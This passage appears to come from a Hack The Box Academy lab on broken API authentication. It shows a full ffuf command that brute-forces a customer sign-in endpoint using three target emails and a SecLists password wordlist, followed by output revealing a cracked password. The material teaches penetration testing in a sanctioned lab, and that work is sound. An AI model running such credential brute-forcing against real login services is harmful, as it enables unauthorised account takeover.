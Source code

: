 First, we need to obtain the (fail) message that the `/api/v1/authentication/customers/sign-in` endpoint returns when provided with incorrect credentials, which in this case is 'Invalid Credentials':

![API2_2023_Broken_Authentication_Image_8.png](https://academy.hackthebox.com/storage/modules/268/API2_2023_Broken_Authentication_Image_8.png)

Instead of attacking all 107 customers, the admin of `Inlanefreight E-Commerce Marketplace` has provided us with the emails of three high-value targets (which we need to save in a file):

- `[email protected]`
- `[email protected]`
- `[email protected]`

For the password wordlist, we will use [xato-net-10-million-passwords-10000](https://github.com/danielmiessler/SecLists/blob/master/Passwords/xato-net-10-million-passwords-10000.txt) from [SecLists](https://github.com/danielmiessler/SecLists/tree/master).

Because we are fuzzing two parameters at the same time (which are the email and password), we need to use the `-w` flag of `ffuf` and assign the keywords `EMAIL` and `PASS` to the customer emails and passwords wordlists, respectively. Once `ffuf` finishes, we will discover that the password of `[email protected]` is `qwerasdfzxcv`:

```shell
ffuf -w /opt/useful/seclists/Passwords/xato-net-10-million-passwords-10000.txt:PASS -w customerEmails.txt:EMAIL -u http://94.237.59.63:31874/api/v1/authentication/customers/sign-in -X POST -H "Content-Type: application/json" -d '{"Email": "EMAIL", "Password": "PASS"}' -fr "Invalid Credentials" -t 100

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.1.0-dev
________________________________________________

 :: Method           : POST
 :: URL              : http://94.237.59.63:31874/api/v1/authentication/customers/sign-in
 :: Wordlist         : PASS: /opt/useful/seclists/Passwords/xato-net-10-million-passwords-10000.txt
 :: Wordlist         : EMAIL: /home/htb-ac-413848/customerEmails.txt
 :: Header           : Content-Type: application/json
 :: Data             : {"Email": "EMAIL", "Password": "PASS"}
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 100
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Regexp: Invalid Credentials
________________________________________________

[Status: 200, Size: 393, Words: 1, Lines: 1, Duration: 81ms]
    * EMAIL: [email protected]
    * PASS: qwerasdfzxcv

:: Progress: [30000/30000] :: Job [1/1] :: 1275 req/sec :: Duration: [0:00:24] :: Errors: 0 ::

```
